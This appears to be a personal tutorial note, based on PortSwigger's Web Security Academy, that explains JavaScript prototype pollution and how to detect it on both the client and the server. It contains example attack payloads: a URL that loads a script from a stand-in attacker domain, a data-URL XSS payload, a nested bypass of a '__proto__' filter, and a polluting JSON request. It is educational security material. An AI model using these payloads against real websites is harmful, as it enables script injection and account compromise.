



Prototype pollution is a JavaScript vulnerability (note: JavaScript is needed to exploit it) that enables an attacker to add arbitrary properties to global object prototypes. This properties get inherited by user-defined objects. This is why it is called Protoype pollution, as you are polluting the prototype (the blueprint) that is after used by an inherited object when created.
Although prototype pollution is often unexploitable as a standalone vulnerability, it lets an attacker control properties of objects that would otherwise be inaccessible. If the application subsequently handles an attacker-controlled property in an unsafe way, this can potentially be chained with other vulnerabilities. In client-side JavaScript, this commonly leads to [DOM XSS](https://portswigger.net/web-security/cross-site-scripting/dom-based), while server-side prototype pollution can even result in remote code execution.

Let's first analyze what is an object in JavaScript and what is a prototype, so we can better understand what is happening.

# JavaScript prototypes and inheritance
JavaScript uses a prototypal inheritance model, which is quite different from the class-based model used by many other languages.

## What is an object in JavaScript?
A JavaScript object is essentially just a collection of `key:value` pairs known as "properties". For example, the following object could represent a user:
```javascript
const user =  {
    username: "wiener",
    userId: 01234,
    isAdmin: false
}
```

You can access the properties of an object by using either dot notation or bracket notation to refer to their respective keys:
`user.username // "wiener"`
`user['userId'] // 01234`

As well as data, properties may also contain executable functions. In this case, the function is known as a "method" (the objects can have methods inside):
```javascript
const user =  {
    username: "wiener",
    userId: 01234,
    exampleMethod: function(){
        // do something
    }
}
```
The example above is an "object literal", which means it was **created using curly brace syntax to explicitly declare its properties and their initial values**.
However, it's important to understand that **almost everything in JavaScript is an object under the hood**. Throughout these materials, the term "object" refers to all entities, not just object literals.
Ok, we know what is an object. Now, what is a prototype?

## What is a prototype in JavaScript?
Every object in JavaScript is linked **to another object of some kind**, known as its prototype.
By default, JavaScript automatically assigns new objects one of its built-in prototypes, therefore each objects has one prototype by default, which is the built-in prototype.
For example, strings are automatically assigned the built-in `String.prototype`. You can see some more examples of these global prototypes below:
```javascript
let myObject = {};
Object.getPrototypeOf(myObject);    // Object.prototype

let myString = "";
Object.getPrototypeOf(myString);    // String.prototype

let myArray = [];
Object.getPrototypeOf(myArray);	    // Array.prototype

let myNumber = 1;
Object.getPrototypeOf(myNumber);    // Number.prototype
```
Objects automatically **inherit all of the PROPERTIES OF THE ASSIGNED PROTOTYPE, unless the own object overrides these properties by explicitly declaring it with the same key name.** This enables developers to create objects that **reuse the properties and methods of already existing objects, by using the prototype.**

The built-in prototypes provide **useful properties and methods for working with basic data types**. For example, the `String.prototype` object has a `toLowerCase()` method. As a result, **all strings automatically have a ready-to-use method for converting them to lowercase.** This saves developers having to manually add this behavior to each new string that they create.

## How does object inheritance work in JavaScript?
Whenever you reference the property of an object, first JavaScript tries to access the property on the object itself. If the object does not have a matching property, then the JavaScript engine looks for it on the object's prototype instead. 

Given the following objects, this enables you to reference `myObject.propertyA`, for example:


As myObject has a prototype called `existingObject`, we can use myObject.propertyA and myobject.propertyB.

## The prototype chain
First, we must know that an object's prototype is another object. As we mentioned, nearly all things in JavaScript are under the hood, objects. Therefore, a prototype is also an object.

As virtually everything in JavaScript is an object under the hood, this chain ultimately leads back to the top-level `Object.prototype`, whose prototype is simply `null`. This means that the prototype of `Object.prototype` does not virtually exist.
Here is a basic hierarchy of double prototyping (as a prototype is an object, a prototype can have another prototype as parent):

Crucially, objects inherit properties not just from their immediate prototype, but from all objects above them in the prototype chain. In the example above, this means that the `username` object has access to the properties and methods of both `String.prototype` and `Object.prototype`. It is like inheritance. 

## Accessing an object's prototype using __proto__
Every object has a special property that you can use to access its prototype. Although this doesn't have a formally standardized name, `__proto__` is the de facto standard used by most browsers. If you're familiar with object-oriented languages, this property serves as both a getter and setter for the object's prototype. This means you can use it to read the prototype and its properties, and even reassign them if necessary.

As with any property, you can access `__proto__` using either bracket or dot notation:
`username.__proto__ `
`username['__proto__']`
With both ways we are accessing the prototype of the object username (the next one in the hierarchy, not the top one).
You can even chain references to `__proto__` to work your way up the prototype chain:
```javascript
username.__proto__                        // String.prototype
username.__proto__.__proto__              // Object.prototype
username.__proto__.__proto__.__proto__    // null
```

## Modifying prototypes
Although it's generally considered bad practice, it is possible to modify JavaScript's built-in prototypes just like any other object. This means developers can customize or override the behavior of built-in methods, and even add new methods to perform useful operations.

For example, modern JavaScript provides the `trim()` method for strings, which enables you to easily remove any leading or trailing whitespace. Before this built-in method was introduced, developers sometimes added their own custom implementation of this behavior to the `String.prototype` object by doing something like this, creating a new method:
```javascript
String.prototype.removeWhitespace = function(){
    // remove leading and trailing whitespace
}
```

Thanks to the prototypal inheritance (we declared the method in the prototype and not in the object), all strings would then have access to this method:
```javascript
let searchTerm = "  example ";
searchTerm.removeWhitespace();    // "example"
```

Now, we understand what are objets and prototypes. We are going to see how one can exploit a prototype to perform a prototype pollution.

# How do prototype pollution vulnerabilities arise?
Prototype pollution vulnerabilities typically arise when a JavaScript function recursively **merges an object containing user-controllable properties into an existing object, without first sanitizing the keys**. 
This can allow an attacker to inject a property with a key like `__proto__`, along with arbitrary nested properties. The thing is that, due to the meaning of `__proto__`, the merge operation **may assign the nested properties TO THE OBJECT PROTOTYPE instead of the object itself**.
As a result, the attacker can control the prototype adding values that contain harmful values, which may subsequently used by the application in a dangerous way.

It's possible to pollute any prototype object, but this mostly happens by manipulating the global `Object.prototype` as it is shared between all of the JavaScript objects.

Successful exploitation of prototype pollution requires the following key components:
- [A prototype pollution source](https://portswigger.net/web-security/prototype-pollution#prototype-pollution-sources) - This is any input that enables you to poison prototype objects with arbitrary properties.
- [A sink](https://portswigger.net/web-security/prototype-pollution#prototype-pollution-sinks) - In other words, a JavaScript function or DOM element that enables arbitrary code execution.
- [An exploitable gadget](https://portswigger.net/web-security/prototype-pollution#prototype-pollution-gadgets) - This is any property that is passed into a sink without proper filtering or sanitization.

Summary: Manipulate the prototype of an object (or an object by adding the `__proto__`) in order to use the manipulated prototype to cause damage.

## Common sources of prototype pollution
A prototype pollution source is **any user-controllable input that enables you to add arbitrary properties to prototype objects**. The most common sources are as follows:

- The [URL](https://portswigger.net/web-security/prototype-pollution#prototype-pollution-via-the-url) via either the query or fragment string (hash)
- [JSON-based input](https://portswigger.net/web-security/prototype-pollution#prototype-pollution-via-json-input)
- Web messages

Let's analyze each of the common cases.

### Prototype pollution via the URL
Consider the following URL, which has an attacker-constructed query string:
`https://vulnerable-website.com/?__proto__[evilProperty]=payload`
What seems what we want to archieve is to change the property of a prototype and add a field called `evilProperty` with the `payload` value.

When breaking the query string down into `key:value` pairs, a URL parser may interpret `__proto__` as an arbitrary string. But let's look at what happens if these keys and values are subsequently merged into an existing object as properties.
You might think that the `__proto__` property, along with its nested `evilProperty`, will just be added to the target object as follows:
```javascript
{
    existingProperty1: 'foo',
    existingProperty2: 'bar',
    __proto__: {
        evilProperty: 'payload'
    }
}
```
However, this isn't the case. At some point, the recursive merge operation may assign the value of `evilProperty` using a statement equivalent to the following:
`targetObject.__proto__.evilProperty = 'payload';`
This means that we are changing the property of the prototype, affecting all of the objects that use this prototype. If the objects uses `Object.prototype` as its next level prototype, all objects that inherit from the `object.prototype` (all objects in general) will now inherit `evilProperty` with its corresponding value, **unless they own a property with that same name (remember that object's properties preceed)**.

In practice, injecting a property called `evilProperty` is unlikely to have any effect. However, an attacker can use the same technique to pollute the prototype with properties that are used by the application, or any imported libraries. Depends on the effect that you want to achieve.

### Prototype pollution via JSON input
User-controllable objects are **often derived from a JSON string (input)** using the `JSON.parse()` method.
Interestingly, `JSON.parse()` also treats **any key in the JSON object as an arbitrary string**, including things like `__proto__`. This provides another potential vector for prototype pollution.

Let's say an attacker injects the following malicious JSON, for example, via a web message:
```javascript
{
    "__proto__": {
        "evilProperty": "payload"
    }
}
```

If this is converted into a JavaScript object via the `JSON.parse()` method, the resulting object will in fact have a property with the key `__proto__`:
```javascript
const objectLiteral = {__proto__: {evilProperty: 'payload'}};
const objectFromJson = JSON.parse('{"__proto__": {"evilProperty": "payload"}}');

objectLiteral.hasOwnProperty('__proto__');     // false
objectFromJson.hasOwnProperty('__proto__');    // true
```

If the object created via `JSON.parse()` is subsequently merged into an existing object without proper key sanitization, this will also lead to prototype pollution during the assignment, as we saw in the [URL-based example](https://portswigger.net/web-security/prototype-pollution#prototype-pollution-via-the-url) above.

## Prototype pollution sinks
A prototype pollution sink is essentially just a JavaScript function or DOM element that you're able to access via prototype pollution, which enables you to execute arbitrary JavaScript or system commands. We've covered some client-side sinks extensively in our topic on [DOM XSS](https://portswigger.net/web-security/cross-site-scripting/dom-based).

As prototype pollution lets you control properties that would otherwise be inaccessible, this potentially enables you to reach a number of additional sinks within the target application. Developers who are unfamiliar with prototype pollution may wrongly assume that these properties are not user controllable, which means there may only be minimal filtering or sanitization in place.

## Prototype pollution gadgets

A gadget provides a means of turning the prototype pollution vulnerability into an actual exploit. This is any property that is:
- Used by the application in an unsafe way, such as passing it to a sink without proper filtering or sanitization.
- Attacker-controllable via prototype pollution. In other words, the object must be able to inherit a malicious version of the property added to the prototype by an attacker.

A property cannot be a gadget if it is defined directly on the object itself. In this case, the object's own version of the property takes precedence over any malicious version you're able to add to the prototype. [Robust websites](https://portswigger.net/web-security/prototype-pollution/preventing#preventing-an-object-from-inheriting-properties) may also explicitly set the prototype of the object to `null`, which ensures that it doesn't inherit any properties at all.

### Example of a prototype pollution gadget
Many JavaScript libraries accept an object that developers can use to set different configuration options. The library code checks whether the developer has explicitly added certain properties to this object and, if so, adjusts the configuration accordingly. If a property that represents a particular option is not present, a predefined default option is often used instead. A simplified example may look something like this:

`let transport_url = config.transport_url || defaults.transport_url;`

Now imagine the library code uses this `transport_url` to add a script reference to the page:
```javascript
let script = document.createElement('script');
script.src = `${transport_url}/example.js`;
document.body.appendChild(script);
```
If the website's developers haven't set a `transport_url` property on their `config` object, this is a potential gadget. In cases where an attacker is able to pollute the global `Object.prototype` with their own `transport_url` property, this will be inherited by the `config` object and, therefore, set as the `src` for this script to a domain of the attacker's choosing.

If the prototype can be polluted via a query parameter, for example, the attacker would simply have to induce a victim to visit a specially crafted URL to cause their browser to import a malicious JavaScript file from an attacker-controlled domain:
`https://vulnerable-website.com/?__proto__[transport_url]=//evil-user.net`

By providing a `data:` URL, an attacker could also directly embed an [XSS](https://portswigger.net/web-security/cross-site-scripting) payload within the query string as follows:
`https://vulnerable-website.com/?__proto__[transport_url]=data:,alert(1);//`

Note that the trailing `//` in this example is simply to comment out the hardcoded `/example.js` suffix.

# Client-side prototype pollution 

## Finding client-side prototype pollution sources manually
Finding [prototype pollution sources](https://portswigger.net/web-security/prototype-pollution#prototype-pollution-sources) manually is largely a case of trial and error. In short, you need to try different ways of adding an arbitrary property to `Object.prototype` until you find a source that works.

When testing for client-side vulnerabilities, this involves the following high-level steps:

1. Try to inject an arbitrary property via the query string, URL fragment, and any JSON input. For example, by URL input:
`vulnerable-website.com/?__proto__[foo]=bar`
2. In your browser console, inspect `Object.prototype` to see if you have successfully polluted it with your arbitrary property:
```javascript
Object.prototype.foo
// "bar" indicates that you have successfully polluted the prototype
// undefined indicates that the attack was not successful
```
3. If the property was not added to the prototype, try using different techniques, such as switching to dot notation rather than bracket notation, or vice versa:
`vulnerable-website.com/?__proto__.foo=bar`
4. Repeat this process for each potential source.

## Finding client-side prototype pollution gadgets manually
Once you've [identified a source](https://portswigger.net/web-security/prototype-pollution/client-side#finding-client-side-prototype-pollution-sources-manually) that lets you add arbitrary properties to the global `Object.prototype`, the next step is to find a suitable gadget that you can use to craft an exploit. In practice, we recommend [using DOM Invader](https://portswigger.net/web-security/prototype-pollution/client-side#finding-client-side-prototype-pollution-gadgets-using-dom-invader) to do this, but it's useful to look at the manual process as it may help solidify your understanding of the vulnerability.

1. Look through the source code and identify any properties that are used by the application or any libraries that it imports.
2. In Burp, enable response interception (**Proxy > Options > Intercept server responses**) and intercept the response containing the JavaScript that you want to test.
3. Add a `debugger` statement at the start of the script, then forward any remaining requests and responses.
4. In Burp's browser, go to the page on which the target script is loaded. The `debugger` statement pauses execution of the script.
5. While the script is still paused, switch to the console and enter the following command, replacing `YOUR-PROPERTY` with one of the properties that you think is a potential gadget:
```javascript
Object.defineProperty(Object.prototype, 'YOUR-PROPERTY', {
    get() {
        console.trace();
        return 'polluted';
    }
})
```
- The property is added to the global `Object.prototype`, and the browser will log a stack trace to the console whenever it is accessed.
    
6. Press the button to continue execution of the script and monitor the console. If a stack trace appears, this confirms that the property was accessed somewhere within the application.
7. Expand the stack trace and use the provided link to jump to the line of code where the property is being read.
8. Using the browser's debugger controls, step through each phase of execution to see if the property is passed to a sink, such as `innerHTML` or `eval()`.
9. Repeat this process for any properties that you think are potential gadgets.

## Finding client-side prototype pollution sources using DOM Invader
As you can see, finding prototype pollution sources manually can be a fairly tedious process. Instead, we recommend using DOM Invader, which comes preinstalled with Burp's built-in browser. DOM Invader is able to automatically test for prototype pollution sources as you browse, which can save you a considerable amount of time and effort. For more information, check out the DOM Invader documentation.

Once you have used the DOM Invader tool, just test it:
- In the console, create a new object:
    `let myObject = {};`
- Confirm that your new object has inherited `testproperty` via the prototype chain:
    `console.log(myObject.testproperty); // Output: 'DOM_INVADER_PP_POC'`
## Prototype pollution via the constructor
So far, we've looked exclusively at how you can get a reference to prototype objects via the special `__proto__` accessor property. 
As this is the classic technique for prototype pollution, a common defense is to strip any properties with the key `__proto__` from user-controlled objects before merging them. This approach is flawed as there are alternative ways to reference `Object.prototype` without relying on the `__proto__` string at all.

Unless its [prototype is set to `null`](https://portswigger.net/web-security/prototype-pollution/preventing#preventing-an-object-from-inheriting-properties), every JavaScript object has a `constructor` property, which contains a reference to the constructor function that was used to create it. For example, you can create a new object either using literal syntax or by explicitly invoking the `Object()` constructor as follows:
```javascript
let myObjectLiteral = {};
let myObject = new Object();
```
You can then reference the `Object()` constructor via the built-in `constructor` property:
```javascript
myObjectLiteral.constructor // function Object(){...}
myObject.constructor // function Object(){...}
```
Remember that functions are also just objects under the hood. Each constructor function has a `prototype` property, which points to the prototype that will be assigned to any objects that are created by this constructor. As a result, you can also access any object's prototype as follows:
```javascript
myObject.constructor.prototype // Object.prototype
myString.constructor.prototype // String.prototypemy
Array.constructor.prototype // Array.prototype
```
As `myObject.constructor.prototype` is equivalent to `myObject.__proto__`, this provides an alternative vector for prototype pollution.

## Bypassing flawed key sanitization
An obvious way in which websites attempt to prevent prototype pollution is by sanitizing property keys before merging them into an existing object. However, a common mistake is failing to recursively sanitize the input string. For example, consider the following URL:
`vulnerable-website.com/?__pro__proto__to__.gadget=payload`

If the sanitization process just strips the string `__proto__` without repeating this process more than once, this would result in the following URL, which is a potentially valid prototype pollution source:
`vulnerable-website.com/?__proto__.gadget=payload`

## Prototype pollution in external libraries
As we've touched on already, prototype pollution gadgets may occur in third-party libraries that are imported by the application. In this case, we strongly recommend using DOM Invader's prototype pollution features to identify sources and gadgets. Not only is this much quicker, it also ensures you won't miss vulnerabilities that would otherwise be extremely tricky to notice.

# Server-side prototype pollution
JavaScript was originally a client-side language designed to run in browsers. However, due to the emergence of server-side runtimes, such as the hugely popular Node.js, JavaScript is now widely used to build servers, APIs, and other back-end applications. Logically, this means that it's also possible for prototype pollution vulnerabilities to arise in server-side contexts.

Although the fundamental concepts remain largely the same, the process of identifying server-side prototype pollution vulnerabilities, and developing them into working exploits, presents some additional challenges.

In this section, you'll learn a number of techniques for black-box detection of server-side prototype pollution. We'll cover how to do this efficiently and non-destructively, then use interactive, deliberately vulnerable labs to demonstrate how you can leverage prototype pollution for remote code execution.

## Why is server-side prototype pollution more difficult to detect?
For a number of reasons, server-side prototype pollution is generally more difficult to detect than its client-side variant:

- **No source code access** - Unlike with client-side vulnerabilities, you typically won't have access to the vulnerable JavaScript. This means there's no easy way to get an overview of which sinks are present or spot potential gadget properties.
- **Lack of developer tools** - As the JavaScript is running on a remote system, you don't have the ability to inspect objects at runtime like you would when using your browser's DevTools to inspect the DOM. This means it can be hard to tell when you've successfully polluted the prototype unless you've caused a noticeable change in the website's behavior. This limitation obviously doesn't apply to white-box testing.
- **The DoS problem** - Successfully polluting objects in a server-side environment using real properties often breaks application functionality or brings down the server completely. As it's easy to inadvertently cause a denial-of-service (DoS), testing in production can be dangerous. Even if you do identify a vulnerability, developing this into an exploit is also tricky when you've essentially broken the site in the process.
- **Pollution persistence** - When testing in a browser, you can reverse all of your changes and get a clean environment again by simply refreshing the page. Once you pollute a server-side prototype, this change persists for the entire lifetime of the Node process and you don't have any way of resetting it.

In the following sections, we'll cover a number of non-destructive techniques that enable you to safely test for server-side prototype pollution despite these limitations.

## Detecting server-side prototype pollution via polluted property reflection
An easy trap for developers to fall into is **forgetting or overlooking the fact that a JavaScript `for...in` loop iterates over all of an object's enumerable properties, including ones that it has inherited via the prototype chain.**

You can test this out for yourself as follows:

```javascript
const myObject = { a: 1, b: 2 };

// pollute the prototype with an arbitrary property
Object.prototype.foo = 'bar';

// confirm myObject doesn't have its own foo property
myObject.hasOwnProperty('foo'); // false

// list names of properties of myObject
for(const propertyKey in myObject){
    console.log(propertyKey);
}

// Output: a, b, foo
```

This **also applies to arrays, where a `for...in` loop first iterates over each index, which is essentially just a numeric property key under the hood**, before moving on to any inherited properties as well. This is easy to understand as we can think of array's items as their properties.
```javascript
const myArray = ['a','b'];
Object.prototype.foo = 'bar';

for(const arrayKey in myArray){
    console.log(arrayKey);
}

// Output: 0, 1, foo
```
In either case, if the application later includes the returned properties in a response, this can provide a simple way to probe for server-side prototype pollution.

`POST` or `PUT` requests that submit JSON data to an application or API are prime candidates for this kind of behavior as it's common for servers to respond with a JSON representation of the new or updated object. In this case, you could attempt to pollute the global `Object.prototype` with an arbitrary property as follows:
```javascript
POST /user/update HTTP/1.1
Host: vulnerable-website.com
...
{
    "user":"wiener",
    "firstName":"Peter",
    "lastName":"Wiener",
    "__proto__":{
        "foo":"bar"
    }
}
```

If the website is vulnerable, your injected property would then appear in the updated object in the response:
```javascript
HTTP/1.1 200 OK
...
{
    "username":"wiener",
    "firstName":"Peter",
    "lastName":"Wiener",
    "foo":"bar"
}
```

In rare cases, the website may even use these properties to dynamically generate HTML, resulting in the injected property being rendered in your browser.

Once you identify that server-side prototype pollution is possible, you can then look for potential gadgets to use for an exploit. Any features that involve updating user data are worth investigating as these often involve merging the incoming data into an existing object that represents the user within the application. If you can add arbitrary properties to your own user, this can potentially lead to a number of vulnerabilities, including privilege escalation.